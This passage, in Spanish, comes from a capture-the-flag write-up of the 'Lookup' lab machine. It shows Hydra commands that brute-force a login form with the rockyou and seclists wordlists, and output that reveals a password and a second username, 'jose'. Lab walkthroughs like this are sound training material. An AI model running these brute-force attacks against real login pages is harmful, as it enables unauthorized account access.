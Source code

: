 Por lo que esto confirma que el `Username: admin` sí existe.

Con esto podemos realizar un ataque de fuerza bruta para tratar de identificar la contraseña.

Para este caso utilizaremos Hydra para realizar la fuerza bruta:

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt lookup.thm http-post-form "/login.php:username=^USER^&password=^PASS^:F=Wrong password" -V
```

Luego de varios intentos y varios minutos, hydra nos muestra el siguiente resultado:

```bash
[RE-ATTEMPT] target http://lookup.thm - login "admin" - pass "punkin1" - 11800 of 14344404 [child 6] (0/5)
[RE-ATTEMPT] target http://lookup.thm - login "admin" - pass "peaches2" - 11800 of 14344404 [child 7] (0/5)
[RE-ATTEMPT] target http://lookup.thm - login "admin" - pass "miming" - 11800 of 14344406 [child 2] (0/7)
[RE-ATTEMPT] target http://lookup.thm - login "admin" - pass "me2you" - 11800 of 14344406 [child 8] (0/7)
 [80][http-post-form] host: 10.201.1.241   login: admin   password: ribeiro
```

Sin embargo, al aplicar estas credenciales en el formulario nos aparece el mensaje:

```
Wrong username or password. Please try again.
Redirecting in 3 seconds.
```

En este caso, como lo obtenido por hydra para la búsqueda del password no nos ayuda, podemos realizar lo mismo para encontrar algún otro `Username`.

Para este casi utilizaremos la `seclists`:

```bash
hydra -L /usr/share/seclists/Usernames/Names/names.txt -p admin lookup.hmv http-post-form "/login.php:username=^USER^&password=^PASS^:F=Wrong username or password"   
```

Obtenemos el siguiente resultado:

```bash
[80][http-post-form] host: lookup.hmv   login: admin   password: admin
[80][http-post-form] host: lookup.hmv   login: jose   password: admin
```

Como podemos observar, tenemos otro usuario llamado `jose`.

Podemos volver a aplicar fuerza bruta con Hydra para tratar de encontrar alguna contraseña para este usuario.

```bash
hydra -l jose -P /usr/share/wordlists/rockyou.txt lookup.hmv http-post-form "/login.php:username=^USER^&password=^PASS^:F=Wrong password." -V
```

Luego de unos minutos obtenemos lo siguiente:
